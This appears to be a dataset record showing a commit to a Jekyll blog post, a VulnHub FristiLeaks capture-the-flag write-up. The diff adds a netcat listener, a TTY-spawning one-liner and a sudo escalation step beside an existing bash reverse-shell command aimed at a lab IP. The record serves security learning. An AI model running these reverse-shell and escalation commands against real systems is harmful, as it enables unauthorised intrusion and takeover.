

Before and after one commit to sdsdkkk/sdsdkkk.github.io, a Jekyll site: the page built from _posts/2015-12-31-vulnhub-fristileaks-writeup.markdown, in a window 1280 px wide and 900 px high, scrolled down 7801 px. Shown: the whole window, without its empty margins (319-959 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; Markdown is read by kramdown in place of the engine named in the settings; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
add some forgotten details

````diff
--- a/_posts/2015-12-31-vulnhub-fristileaks-writeup.markdown
+++ b/_posts/2015-12-31-vulnhub-fristileaks-writeup.markdown
@@ -251,7 +251,13 @@
 /usr/bin/dir && /bin/bash -i >& /dev/tcp/192.168.0.107/6666 0>&1
 ```
 
-And we got the reverse shell.
+Start `netcat` to listen at port 6666.
+
+```
+$ nc -lvp 6666
+```
+
+Wait a minute for the connection, and we got the reverse shell.
 
 ### Admin
 
@@ -327,6 +333,12 @@
 ```
 
 I thought that it was the root's password because of the name of the file, but it doesn't seem to be it. But I checked the file once again and see that it belongs to the user fristigod. I can su to fristigod now.
+
+But before that, I must spawn a tty.
+
+```
+$ python -c 'import pty;pty.spawn("/bin/bash")'
+```
 
 ### Fristigod
 
@@ -463,4 +475,10 @@
 
 ```
 
+By the way, I could just spawn a root shell with `doCom` instead of doing things one by one like that.
+
+```
+$ sudo -u fristi ./doCom /bin/bash
+```
+
 I wonder if I managed to finish it in 4 hours. I did it in three days, around one or two hours per day. But well, it's finished though.
````
